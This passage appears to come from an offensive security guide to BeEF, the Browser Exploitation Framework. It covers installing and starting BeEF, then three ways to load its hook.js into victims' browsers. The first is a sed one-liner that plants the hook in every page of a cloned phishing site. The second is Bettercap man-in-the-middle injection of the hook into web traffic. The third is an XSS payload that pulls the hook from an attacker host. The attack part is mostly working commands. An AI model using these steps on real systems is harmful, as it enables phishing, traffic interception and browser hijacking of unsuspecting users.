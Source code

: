 BeEF comes pre-installed on Kali and Parrot OS, but you may want to update to the latest version:

```bash
# Update BeEF
cd /usr/share/beef-xss/
git pull

# Alternative: Install from source
git clone https://github.com/beefproject/beef.git
cd beef
./install
```

To start BeEF:

```bash
cd /usr/share/beef-xss/
./beef
```

BeEF will start and provide URLs for the hook and admin interface:
- Admin UI: typically http://127.0.0.1:3000/ui/panel
- Hook URL: typically http://127.0.0.1:3000/hook.js

### Hook Integration

The power of BeEF lies in its ability to "hook" browsers, which is accomplished by getting the target to load the BeEF hook JavaScript. There are several methods for doing this:

#### 1. Direct Inclusion in Phishing Pages

Modify the cloned website to include the BeEF hook:

```bash
# Add the hook to all HTML files in the cloned site
find /var/www/html -name "*.html" -exec sed -i 's#</head>#<script src="http://YOUR_IP:3000/hook.js"></script></head>#g' {} \;
```

#### 2. Man-in-the-Middle Injection

Using a tool like Bettercap to inject the hook into web traffic:

```bash
sudo bettercap -iface eth0 -caplet http-ui

# In the Bettercap web UI, set up JavaScript injection:
set http.proxy.script "http://YOUR_IP:3000/hook.js"
http.proxy on
```

#### 3. Cross-Site Scripting (XSS) Payload

If you've discovered an XSS vulnerability, you can use it to deliver the BeEF hook:

```javascript
<script src="http://YOUR_IP:3000/hook.js"></script>
```
